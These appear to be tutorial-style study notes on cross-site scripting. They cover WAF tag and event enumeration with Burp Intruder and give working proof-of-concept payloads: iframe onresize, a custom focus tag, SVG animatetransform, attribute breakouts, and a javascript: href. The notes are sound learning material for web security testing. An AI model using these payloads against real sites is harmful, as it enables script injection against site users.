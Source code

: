 ### XSS between HTML Tags
In this context, the attacker needs to introduce some "new" HTML tag(s) designed to execute the desired methods. In the simplest case, the `<script>` can be used directly to run JS code. However, it is common to find most useful tags and attributes blocked. Luckily, there are other ways...

#### Blocked Tags and Attributes
HTML elements can be blocked by the WAF, but there can still be some permitted. Enumerating all possible tags will reveal which and can be done with the Burp Intruder. In the according input, try all tags with:
```
<§§>
```

If a permitted tag is found, the events should be enumerated:
```
<body §§=1>
```

When knowing which tag and event is permitted, an attack can be crafted that triggeres an event:
```
<iframe src="https://VICTIM-HOST/?search=<body onresize=print()>" onload=this.style.width='100px'>
```

It can be that only custom tags are allowed. However, it is fairly easy to define one's own tags:
```
<script>
location = 'https://VICTIM-HOST/?search=<xss id=x onfocus=alert(1) tabindex=1>#x';
</script>
```

Here the `location` variable is needed for the exploit to work. The tag name and id however are arbitrary. The `onfocus` event is triggered with the `#x` command.

In case `SVG` tags are allowed with an animation action, the command can look something like this:
```
<svg><animatetransform onbegin=alert(1)>
```
The XSS cheat sheet provides all actions for the `animatetransform` which can be enumerated as usually. 

### XSS within HTML Tags
In this scenario, the script will be defined within a tag, so the normal flow has to be broken first. Often the brackets are blocked, but there are ways of breaking out of the tag, e.g.:
```
" autofocus onfocus=alert(1) x="
```
This sequence tries to focus on the element and triggering the `onfocus` event. The `x=` is there to produce valid code after the breakout happened.

The tag can also allow JS code to be run natively, such as `href`:
```
<a href="javascript:alert(1)">
```

If the context is within an `img` tag:
```
<img src="/resources?searchTerms=xxxx">
```
the following can be used to escape and trigger an alert:
```
"><svg onload=alert(1)>
```
